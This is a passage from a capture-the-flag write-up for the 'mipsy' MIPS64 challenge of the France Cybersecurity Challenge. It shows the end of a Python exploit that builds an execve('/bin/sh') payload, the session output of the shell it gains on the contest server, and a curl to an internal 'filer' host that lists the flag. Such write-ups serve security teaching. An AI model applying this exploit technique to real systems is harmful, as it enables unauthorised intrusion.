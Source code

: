 ```py
pld  = make_pld(pld, p64(BINSH), BASE_RSP+(0x210)) # $v0
pld  = make_pld(pld, p64(EXECVE), BASE_RSP+(0x228)) # $t9

io.sendlineafter(">>> ", pld)
io.interactive()
```

## Final part

According to the statements we need to read some files stored on the filer machine.
So firstly let's run the exploit to get the shell:
```
$ ./solve.py                                                                  
[!] Could not emulate PLT instructions for ELF('mipsy/mipsy')
[!] Could not populate PLT: not enough values to unpack (expected 2, got 0)
[*] 'mipsy/mipsy'
    Arch:     mips64-64-big
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x120000000)
    RWX:      Has RWX segments
[+] Opening connection to challenges2.france-cybersecurity-challenge.fr on port 4005: Done
[*] Switching to interactive mode
Error: wrong password.
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ ls
list_interfaces.sh
mipsy
$
```

We see no flag, so according to the statements maybe we have to curl the filer machine which seems to be a HTTP server:
```
$ curl filer
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>Directory listing for /</title>
</head>
<body>
<h1>Directory listing for /</h1>
<hr>
<ul>
<li><a href="flag">flag</a></li>
</ul>
<hr>
</body>
</html>
```
